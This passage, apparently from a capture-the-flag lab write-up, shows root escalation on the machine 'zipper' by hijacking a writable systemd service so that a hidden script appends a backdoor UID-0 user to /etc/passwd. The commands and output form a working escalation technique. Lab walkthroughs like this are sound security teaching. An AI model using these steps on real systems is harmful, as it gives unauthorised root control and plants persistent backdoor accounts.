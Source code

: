 In the first section, `After`, `Requires`, and `BindsTo` say that this service
will only run after `zabbix-agent.server`, and only while it is running. I can
see this if I run `/home/zapper/utils/zabbix-service stop`, I stop seeing the
purge script in `journalctl` as well.

In the second section, it defines that the service will start 15 seconds after
boot, and while active every 5 minutes.

#### Exploit

The flaw here is that while the service runs as root, both of these files that
define the service are writable by zapper:

    
    
    zapper@zipper:/etc/systemd/system$ ls -l purge-backups.*
    -rw-rw-r-- 1 root zapper 132 Sep  8 13:22 purge-backups.service
    -rw-rw-r-- 1 root zapper 237 Feb 21 09:15 purge-backups.timer
    

There are tons of ways to get to root from here. I’ll add a root user to
/etc/passwd.

First, I’ll create a script that does that:

    
    
    zapper@zipper:/dev/shm$ openssl passwd 0xdf
    ydmNDQhnaXn92
    
    zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd'
    #!/bin/sh
    
    echo "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd
    
    zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd' > .a.sh
    

Now I’ll make a copy of the original into `/tmp`, and then update `purge-
backups.service`:

    
    
    zapper@zipper:/dev/shm$ cp /etc/systemd/system/purge-backups.service /tmp/
    
    zapper@zipper:/dev/shm$ vi /etc/systemd/system/purge-backups.service
    
    zapper@zipper:/dev/shm$ cat /etc/systemd/system/purge-backups.service
    [Unit]
    Description=Purge Backups (Script)
    [Service]
    ExecStart=/dev/shm/.a.sh
    [Install]
    WantedBy=purge-backups.timer
    

Now I can wait 5 minutes, or just stop and start the zabbix-agent service:

    
    
    zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service stop
    zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service start
    